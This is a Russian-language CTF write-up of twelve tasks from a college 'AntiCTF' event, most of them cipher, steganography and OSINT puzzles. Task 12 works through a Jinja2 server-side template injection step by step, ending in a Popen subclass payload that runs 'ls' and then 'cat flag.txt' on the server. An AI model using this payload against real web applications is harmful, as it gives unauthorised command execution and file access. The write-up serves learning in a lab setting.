









# HAPPY NEW YEAR 2023 – ANTICTF KPK

---

**Task 1: С новым Годом**

**Описание:** Приветствуем вас в ctfKPK! Стартуем с первого новогоднего ивента в 2023 году - AntiCTF. Кстати, заценили плакат-приглашение?

Плакаты-приглашения висели в нескольких местах Колледжа, стоило только внимательно присмотреться и найти флаг:

**Флаг:** flag{Happy\_New\_2023\_Year!}

---

**Task 2: fxxkurbrain**

**Описание:** У меня уже ломается мозг. Поможешь расшифровать? 

Название таска намекает на brainfuck. Соответственно, находим в интернете транслятор этого языка, заносим в него шифрограмму и запускаем:

**Флаг:** AntiFlag{m0zg\_pliv3t}

---

**Task 3: mayday**

**Описание:** Мы перехватили сообщение, сможешь ли ты спасти человека?

Точки и тире, как интересно. Гуглим Morse Decoder вносим шифрограмму и декодируем:

**Флаг:** AntiFlag{K1LL\_M3\_PLS}

---

**Task 4: Демоны**

**Описание:** Демоны в моей голове демоны повсюду.

Дана картинка:

Открываем в hex варианте:

Нашли интересную строку: **drfwsditf0ifsgkryx\_1g\_zg\_jvzfpea**

Пробовал далее перебирать стандартные шифры, в итоге удалось выяснить, что это шифр Виженера. Ключ нам неизвестен, поэтому попробуем ввести **AntiFlag**:

Из разборчивого получаем – **demonsin**. Подставим это в качестве ключа и добавим **myhead**:

Почти расшифровали, осталось последнее слово, но теперь уже несложно догадаться, что можно ввести **everywhere** и получить вторую часть флага:

**Флаг:** AntiFlag{t0kyoghoul\_1s\_my\_favorit}

---

**Task 5: Прятки**

**Описание:** Я спрятался среди участников чата CTF, найди меня.

Картинка к заданию:

Откроем в хексах:

Потом пишем человеку с префиксом «**резистор**» и он нам отдает флаг (причина, по которой написал именно ему указана на скрине):

**Флаг:** AntiFlaf{i\_am\_freedom}

---

**Task 6: Digital Musician**

**Описание:** Антифлаг потерялся во время прослушивания этой песни. Подсказка: этот таск относится к осинту, подумай, какие сервисы помогут тебе найти с помощью этой песни то, что тебе нужно и ввести в флаг (формат - AntiFlag{}).

К заданию прилагался mp3-файл, в котором находится песня. С помощью Shazam определяем автора и название песни:

**Флаг:** AntiFlag{915913}

---

**Task 7: Смирись и расслабься**

**Описание:** Создательнице приснился флаг, найдешь? (ОСТОРОЖНО! Эпилептикам лучше не трогать этот таск!)

В задании есть длинный видеофайл, в котором крайне быстро меняются картинки. На одной из картинок находится флаг. Как это удалось выяснить? С помощью встроенного плейера в Linux можно замедлить видео, собственно, что и было проделано. На одной из картинок находим флаг:

**Флаг:** AntiFlag{acid}

---

**Task 8: Picture not picture**

**Описание:** Вам скинули какой-то файл. Вроде картинка, но я в этом не уверен. (P.S. Файл безобидный для вашего компьютера, но антивирус может ругаться и в крайнем случае удалять файл).

Запускаем exe файл и нам открываются два файла. Один из них непонятная картинка, на которой практически ничего нет, а второй – архив, который запаролен. Переведем картинку из .jpg в .txt. Находим внутри интересную строку:

Оказывается, это и есть пароль:

**Флаг**: AntiFlag{B3\_Car3full\_SFX\_n0t\_sl33p}

---

**Task 9: Lord of the Rings**

**Описание**: Флаг потерялся рядом с КПК (не стесняйтесь использовать все возможности гугл карт (а может и не их)).

Заходим на 2gis, ищем Колледж и открываем раздел фото:

Похоже на шифр Виженера или Цезаря. Потом находим в разделе отзывов интересный момент:

**Г**еометрию, **Р**адует, **И**ностранные, **Б**ольшое – **ГРИБ**. Скорее всего это ключ. Пробуем применить его в разных вариациях:

**Флаг**: AntiFlag{ a\_elbereth\_g1lth0n1el}

---

**Task 10: Dancing Men (my task)**

**Описание**: Какая-то интересная шифрограмма до меня дошла, вот только я не знаю, как это расшифровать. Вместе с шифрограммой передали лист бумаги, на котором было написано: не забудь добавить {}, ты поймешь, где именно.

Скачиваем файл, который приложен к заданию:

Если загуглить название таска «Dancing men», то нам сразу же станет понятно, что так искомый нами шифр и называется:

Переходим на dCode и выбираем человечков в правильной последовательности:

**Флаг**: AntiFlag{DancingMenAreIncredible}

---

**Task 11: unification (my task)**

**Описание**: Есть две части одного целого, они рядом, но в то же время далеко друг от друга, этим частям нужно помочь воссоединиться.

Скачиваем файл, который приложен к заданию и пытаемся его открыть:

Попробуем открыть в hex-формате:

Сравним header файла с оригинальной сигнатурой png-файла:

Исправляем первый байт, и открываем файл снова:

Удача, но это только первая часть флага. Если посмотреть более внимательно на файл в hex-формате, то в конце можно увидеть вторую часть флага (part 2: …):

**Флаг**: AntiFlag{th3\_53p4r4t3d\_p4rt5\_4r3\_84ck\_t063th3r\_4641n}

---

**Task 12: embedding templates (my task)**

**Описание**: Мне, как специалисту, поручили посмотреть один веб-ресурс. Суть в том, что он может сказать тебе: "Привет", если сделать определенное действие в адресной строке. Я, к сожалению, не успеваю проверить, заказов крайне много, а ассистента мне не дают, поэтому предлагаю именно тебе стать моим помощником. Посмотри, может туда можно ввести что-то поинтереснее, чем просто имя.

Переходим по ссылке:

Посмотрим, что будет, если добавить к адресу: **/?name=Ivan**

Так, выводится имя, все, как и задумано, но нам предлагают ввести «что-то поинтереснее». Путем нехитрых проб, можно выяснить, что сервис написан на flask (python) – смотрим относительно Jinja2, который входит во flask. Проверки есть в таблице:

Введем: **/?name={{7 \* ‘7’}}**

Получается, что нам необходимо проэксплуатировать уязвимость, связанную с внедрением в шаблоны (SSTI – Server Side Template Injection). Обратимся к репозиторию PayloadsAllTheThing:

Ввводим **/?name={{''.\_\_class\_\_}}** и получаем класс строки (потому что ввели пустую строку; если бы вводили целое число БЕЗ КАВЫЧЕК, то получили бы класс int).

Если ввести число:

Далее смотрим на наследование (иерархия классов) (MRO). Метод класса .mro() возвращает нам список классов ровно в том порядке, в котором Python будет искать методы в иерархии классов пока не найдет нужный или не выдаст ошибку. Как мы знаем, в Python всё является в конечном счете объектом. Вот и проверим, что нам выдаст метод .mro(). Вводим: **/?name={{''.\_\_class\_\_.mro()}}**

Как мы видим, результат вывелся по вышеописанному принципу. Далее обращаемся конкретно к классу object (его индекс в массиве равен 1) и смотрим его подклассы: **/?name={{'’.\_\_class\_\_.mro()[1].\_\_subclasses\_\_()}}**

Их выводится много, но нам нужен конкретный класс, способный выполнять новую программу. Класс Popen() модуля subprocess выполняет дочернюю программу в новом процессе. Через Ctrl + F ищем Popen:

Теперь нам нужно получить его индекс в выведенном массиве. Порой, это бывает непросто, но нам в данном случае повезло и индекс можно посчитать, начиная с конца массива.

Применяем индекс: 

**/?name={{'’.\_\_class\_\_.mro()[1].\_\_subclasses\_\_()[-22]}}**

Далее смотрим на готовые решения из PayloadsAllTheThings, модернизируем исполняемую команду:

**...\_\_subclasses\_\_()[-22]('ls',shell=True,stdout=-1).communicate()[0].strip()}}**

Меняем «ls» на «cat flag.txt»:

P.S. – это не единственное рабочее решение, как минимум, работает и второй payload, представленный на скриншоте из репозитория.

**Флаг**: AntiFlag{SSTI\_1s\_n0t\_th3\_l1m1t}

---
